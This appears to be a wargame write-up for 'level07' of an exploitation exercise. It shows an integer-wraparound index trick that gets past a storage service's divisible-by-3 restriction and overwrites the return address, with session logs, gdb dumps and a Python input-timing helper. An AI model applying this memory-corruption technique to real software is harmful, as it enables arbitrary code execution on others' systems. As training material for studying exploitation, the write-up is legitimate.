 # Level 07

This level is a storage system, the storage is an array of 100 ints but there
is a catch: you cannot store data at index divisible by 3 (or 0).

```
Array:
. are writable indexes
x are not writable indexes

0xffffd464: x..x
0xffffd474: ..x.
0xffffd484: .x..
0xffffd494: x..x
0xffffd4a4: ..x.
0xffffd4b4: .x..
0xffffd4c4: x..x
0xffffd4d4: ..x.
0xffffd4e4: .x..
0xffffd4f4: x..x
0xffffd504: ..x.
0xffffd514: .x..
0xffffd524: x..x
0xffffd534: ..x.
0xffffd544: .x..
0xffffd554: x..x
0xffffd564: ..x.
0xffffd574: .x..
0xffffd584: x..x
0xffffd594: ..x.
0xffffd5a4: .x..
0xffffd5b4: x..x
0xffffd5c4: ..x.
0xffffd5d4: .x..
0xffffd5e4: x..x
```


Other than that, there is no fstring exploit possible, no string buffer overflow,
the arguments are zeroed-out, the environment is zeroed-out and there is a stack canary.

The catch is that the length of the array is never checked, which means that
we can overflow the array.
This has an even better side effect: as it is an array of int we can overflow
the array so much that we can go back to the initial array pointer:

```
Normal behavior:

	base:	0xffffd464
	index:	4
	adress to store: 0xffffd464 + (4 * sizeof(int)) = 0xffffd474

	Storing at address: 0xffffd474

Hacked behavior:

	base:	0xffffd464
	index:	1073741824
	address to store: 0xffffd464 + (1073741824 * sizeof(int)) = 0x1ffffd464
                                                                   |      |
	WARNING: 0x1ffffd464 is more than 32 bits so it overflows       32 bit

	storing address: 0xffffd464 because the first bit was overflowing
```

Why is this great? because it makes avaliable to us the possibility of writing
to indexes divisible by 3. When we want to write to an index that is a multiple
of three, we just need to add 1073741824 to it, because it overflows the array
perfectly to its beginning, and is not divisible by 3.

By putting the numbers to the indexes 1073741824, 1, 2 and (1073741824 + 3)
we can store data to the first 4 indexes of the array without restriction.

```
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 100
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 101
 Index: 1
 Completed store command successfully
Input command: store
 Number: 102
 Index: 2
 Completed store command successfully
Input command: store
 Number: 103       
 Index: 1073741827
 Completed store command successfully
```

```gdb
(gdb) x/4d 0xffffd464
0xffffd464:     100     101     102     103
```

Now that's one less problem, but what are we gonna do with this?

We can store continous shellcode in it. Also, the return address of the function
is writable with the overflow. Normally to write to this address we would've
try to write on the index 114 of the array, but 114 is divisible by 3.
Now we can just write on the index 1073741938 (1073741824 + 114) and it works, we
have code redirection.

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: quit
Segmentation fault (core dumped)
level07@OverRide:~$ dmesg | tail -n1
[ 5399.490681] level07[1916]: segfault at 2a ip 000000000000002a sp 00000000ffffd650 error 14 in level07[8048000+1000]
```

We can see that we are segfaulting to the address that corresponds to the input value.

We have another problem, the program has a script protection that clears stdin
before trying another scanf. Fortunately we can bypass it with something like this:

```py
import time

usleep = lambda x: time.sleep(x / 1000000.0)

def p(x):
    print(x)
    usleep(100)

p("store")
```

This `p()` function will wait that the stdin is cleared to hand back the
execution of the script, thus allowing us to re-write something later.

Now we can write any bit of data, with a script, to our program's memory:


```gdb
(gdb) r < <(python /tmp/level07/script.py)
Starting program: /home/users/level07/level07 < <(python /tmp/level07/script.py)
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully

[...]

Input command:  Number:  Index:  Completed store command successfully
(gdb) x/100d 0xffffd464
0xffffd464:     0       1       2       3
0xffffd474:     4       5       6       7
0xffffd484:     8       9       10      11
0xffffd494:     12      13      14      15
0xffffd4a4:     16      17      18      19
0xffffd4b4:     20      21      22      23
0xffffd4c4:     24      25      26      27
0xffffd4d4:     28      29      30      31
0xffffd4e4:     32      33      34      35
0xffffd4f4:     36      37      38      39
0xffffd504:     40      41      42      43
0xffffd514:     44      45      46      47
0xffffd524:     48      49      50      51
0xffffd534:     52      53      54      55
0xffffd544:     56      57      58      59
0xffffd554:     60      61      62      63
0xffffd564:     64      65      66      67
0xffffd574:     68      69      70      71
0xffffd584:     72      73      74      75
0xffffd594:     76      77      78      79
0xffffd5a4:     80      81      82      83
0xffffd5b4:     84      85      86      87
0xffffd5c4:     88      89      90      91
0xffffd5d4:     92      93      94      95
0xffffd5e4:     96      97      98      99
```

Great! Now we just need to put the shellcode on the code and the return address
to the beginning of the shellcode.


